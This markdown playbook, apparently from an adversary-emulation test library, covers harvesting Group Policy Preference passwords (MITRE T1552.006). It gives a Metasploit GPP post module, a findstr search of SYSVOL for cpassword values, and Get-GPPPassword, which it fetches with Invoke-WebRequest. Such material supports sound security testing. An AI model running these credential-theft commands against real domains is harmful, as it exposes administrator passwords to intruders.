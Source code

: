 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# GPP Local Admin
Older method which stores local admin password in Group Policy

## Metasploit / Meterpreter
```
msf5 > use post/windows/gather/credentials/gpp
msf5 post(windows/gather/credentials/gpp) > set session 1
msf5 post(windows/gather/credentials/gpp) > run
```

**Relevant output**
```
[*] Post module execution completed
```

# T1552.006 - Group Policy Preferences

### Attacks
* GPP Passwords (findstr)
	* Overview
Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller. This value can be decrypted with gpp-decrypt on Kali Linux.

```cmd
findstr /S cpassword %logonserver%\sysvol\*.xml
```

#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
<br/>

### Attacks
* GPP Passwords (Get-GPPPassword)
	* Overview
Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller.
This test is intended to be run from a domain joined workstation, not on the Domain Controller itself.
The Get-GPPPasswords.ps1 executed during this test can be obtained using the get-prereq_commands.

Successful test execution will either display the credentials found in the GPP files or indicate "No preference files found".


```powershell
. #{gpp_script_path}
Get-GPPPassword -Verbose
```

#### Dependencies:  Run with `powershell`!
##### Description: Get-GPPPassword PowerShell Script must exist at #{gpp_script_path}
##### Check Prereq Commands:
```powershell
if(Test-Path "#{gpp_script_path}") {exit 0 } else {exit 1 } 
```
##### Get Prereq Commands:
```powershell
New-Item -ItemType Directory (Split-Path "#{gpp_script_path}") -Force | Out-Null
Invoke-WebRequest #{gpp_script_url} -OutFile "#{gpp_script_path}"
```
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
